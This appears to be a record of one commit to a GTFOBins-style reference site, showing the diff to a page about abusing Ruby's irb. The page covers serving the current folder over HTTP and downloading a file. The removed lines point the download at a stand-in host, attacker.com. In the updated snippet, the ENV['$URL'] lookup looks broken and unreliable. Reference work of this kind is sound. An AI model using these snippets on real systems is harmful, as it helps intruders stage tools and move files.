

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/irb.md, in a window 1280 px wide, cut to the strip 339-824 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update irb.md

```diff
--- a/_gtfoud/irb.md
+++ b/_gtfoud/irb.md
@@ -1,15 +1,13 @@
 ---
 functions:
   server:
-    - description: Serve files in the local folder running an HTTP server on port 8888.
+    - description: Serve files in the local folder running an HTTP server.
       code: |
         irb
-        require 'webrick'; WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start;
+        require 'webrick'; WEBrick::HTTPServer.new(:Port => $LPORT, :DocumentRoot => Dir.pwd).start;
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
         irb
-        require 'open-uri'; download = open(ENV['URL']); IO.copy_stream(download, ENV['LFILE'])
+        require 'open-uri'; download = open(ENV['$URL']); IO.copy_stream(download, ENV['$LFILE'])
 ---
```
